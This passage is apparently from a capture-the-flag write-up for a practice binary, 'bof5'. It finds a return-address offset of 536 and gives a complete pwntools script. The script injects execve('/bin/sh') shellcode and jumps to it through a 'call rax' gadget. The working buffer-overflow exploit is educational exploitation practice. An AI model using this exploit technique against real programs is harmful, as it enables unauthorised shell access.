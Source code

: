 Next, we need to find the offset to ret to overwrite with the address of `call rax;`

![alt text](images/image-4.png)

Using ```cyclic -l``` finds an offset of 536.

Exploit:
```
#!/usr/bin/ python3

from pwn import*

context.binary = exe = ELF('./bof5', checksec=False)
p = process(exe.path)

offset = 536

shellcode = asm(
    '''
    mov rax, 0x3b                   # rax = 0x3b
    mov rdi, 29400045130965551      # 29400045130965551 = '/bin/sh'
    push rdi                        
    mov rdi, rsp                    # rdi trỏ tới chuỗi '/bin/sh'
    xor rsi, rsi                    # rsi = 0
    xor rdx, rdx                    # rdx = 0

    syscall                         
    ''', arch='amd64')              

call_rax = 0x0000000000401014

p.sendafter(b'> ', shellcode)

p.sendafter(b'> ', b'A' * offset + p64(call_rax))

p.interactive()
```
